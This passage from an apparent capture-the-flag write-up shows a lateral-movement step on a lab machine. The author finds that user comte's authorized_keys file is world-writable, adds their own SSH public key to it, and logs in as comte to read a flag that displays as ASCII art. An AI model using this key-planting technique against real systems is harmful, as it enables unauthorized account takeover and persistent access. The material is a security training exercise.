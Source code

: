 ## Shell as comte
We can list files and directories inside home directory of comte user:

```console
$ ls -lah /home/comte
total 52K
drwxr-xr-x 7 comte comte 4.0K Apr  4 17:26 .
drwxr-xr-x 3 root  root  4.0K Sep 27  2023 ..
-rw------- 1 comte comte   55 Apr  4 17:26 .Xauthority
lrwxrwxrwx 1 comte comte    9 Apr  4 17:26 .bash_history -> /dev/null
-rw-r--r-- 1 comte comte  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 comte comte 3.7K Feb 25  2020 .bashrc
drwx------ 2 comte comte 4.0K Sep 27  2023 .cache
drwx------ 3 comte comte 4.0K Sep 24 21:00 .gnupg
drwxrwxr-x 3 comte comte 4.0K Mar 25  2024 .local
-rw-r--r-- 1 comte comte  807 Feb 25  2020 .profile
drwxr-xr-x 2 comte comte 4.0K Mar 25  2024 .ssh
-rw-r--r-- 1 comte comte    0 Sep 27  2023 .sudo_as_admin_successful
drwx------ 3 comte comte 4.0K Mar 25  2024 snap
-rw------- 1 comte comte 4.2K Sep 15  2023 user.txt

```

After going in .ssh directory, we noticed that we can edit authorized_keys file
```console
$ ls -lah /home/comte/.ssh
total 12K
drwxr-xr-x 2 comte comte 4.0K Mar 25  2024 .
drwxr-xr-x 7 comte comte 4.0K Apr  4 17:26 ..
-rw-rw-rw- 1 comte comte  0 Sep 24 20:57 authorized_keys
```

First, generate rsa key :
```console
$ ssh-keygen -t rsa -f key
```

Now, paste the content of the public key file into the authorized_keys. Now, we can get ssh connection to user comte :
```console
$ chmod 600 key
$ ssh -i key comte@cheese.thm
```

And we can read user flag :
```console
comte@cheesectf:~$ cat user.txt 
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣴⣶⣤⣀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣠⡾⠋⠀⠉⠛⠻⢶⣦⣄⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣾⠟⠁⣠⣴⣶⣶⣤⡀⠈⠉⠛⠿⢶⣤⣀⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣴⡿⠃⠀⢰⣿⠁⠀⠀⢹⡷⠀⠀⠀⠀⠀⠈⠙⠻⠷⣶⣤⣀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣠⣾⠋⠀⠀⠀⠈⠻⠷⠶⠾⠟⠁⠀⠀⣀⣀⡀⠀⠀⠀⠀⠀⠉⠛⠻⢶⣦⣄⡀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣴⠟⠁⠀⠀⢀⣀⣀⡀⠀⠀⠀⠀⠀⠀⣼⠟⠛⢿⡆⠀⠀⠀⠀⠀⣀⣤⣶⡿⠟⢿⡇
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣰⡿⠋⠀⠀⣴⡿⠛⠛⠛⠛⣿⡄⠀⠀⠀⠀⠻⣶⣶⣾⠇⢀⣀⣤⣶⠿⠛⠉⠀⠀⠀⢸⡇
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢠⣾⠟⠀⠀⠀⠀⢿⣦⡀⠀⠀⠀⣹⡇⠀⠀⠀⠀⠀⣀⣤⣶⡾⠟⠋⠁⠀⠀⠀⠀⠀⣠⣴⠾⠇
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣴⡿⠁⠀⠀⠀⠀⠀⠀⠙⠻⠿⠶⠾⠟⠁⢀⣀⣤⡶⠿⠛⠉⠀⣠⣶⠿⠟⠿⣶⡄⠀⠀⣿⡇⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣠⣶⠟⢁⣀⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣀⣠⣴⠾⠟⠋⠁⠀⠀⠀⠀⢸⣿⠀⠀⠀⠀⣼⡇⠀⠀⠙⢷⣤⡀
⠀⠀⠀⠀⠀⠀⠀⠀⣠⣾⠟⠁⠀⣾⡏⢻⣷⠀⠀⠀⢀⣠⣴⡶⠟⠛⠉⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠻⣷⣤⣤⣴⡟⠀⠀⠀⠀⠀⢻⡇
⠀⠀⠀⠀⠀⠀⣠⣾⠟⠁⠀⠀⠀⠙⠛⢛⣋⣤⣶⠿⠛⠋⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠉⠉⠁⠀⠀⠀⠀⠀⠀⢸⡇
⠀⠀⠀⠀⣠⣾⠟⠁⠀⢀⣀⣤⣤⡶⠾⠟⠋⠉⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣠⣤⣤⣤⣤⣤⣤⡀⠀⠀⠀⠀⠀⢸⡇
⠀⠀⣠⣾⣿⣥⣶⠾⠿⠛⠋⠉⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣠⣶⠶⣶⣤⣀⠀⠀⠀⠀⠀⢠⡿⠋⠁⠀⠀⠀⠈⠉⢻⣆⠀⠀⠀⠀⢸⡇
⠀⢸⣿⠛⠉⠁⠀⢀⣠⣴⣶⣦⣀⠀⠀⠀⠀⠀⠀⠀⣠⡿⠋⠀⠀⠀⠉⠻⣷⡀⠀⠀⠀⣿⡇⠀⠀⠀⠀⠀⠀⠀⠘⣿⠀⠀⠀⠀⢸⡇
⠀⢸⣿⠀⠀⠀⣴⡟⠋⠀⠀⠈⢻⣦⠀⠀⠀⠀⠀⢰⣿⠁⠀⠀⠀⠀⠀⠀⢸⣷⠀⠀⠀⢻⣧⠀⠀⠀⠀⠀⠀⠀⢀⣿⠀⠀⠀⠀⢸⡇
⠀⢸⡇⠀⠀⠀⢿⡆⠀⠀⠀⠀⢰⣿⠀⠀⠀⠀⠀⢸⣿⠀⠀⠀⠀⠀⠀⠀⣸⡟⠀⠀⠀⠀⠙⢿⣦⣄⣀⣀⣠⣤⡾⠋⠀⠀⠀⠀⢸⡇
⠀⢸⡇⠀⠀⠀⠘⣿⣄⣀⣠⣴⡿⠁⠀⠀⠀⠀⠀⠀⢿⣆⠀⠀⠀⢀⣠⣾⠟⠁⠀⠀⠀⠀⠀⠀⠀⠉⠉⠉⠉⠉⠀⠀⠀⣀⣤⣴⠿⠃
⠀⠸⣷⡄⠀⠀⠀⠈⠉⠉⠉⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠙⠻⠿⠿⠛⠋⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣀⣠⣴⡶⠟⠋⠉⠀⠀⠀
```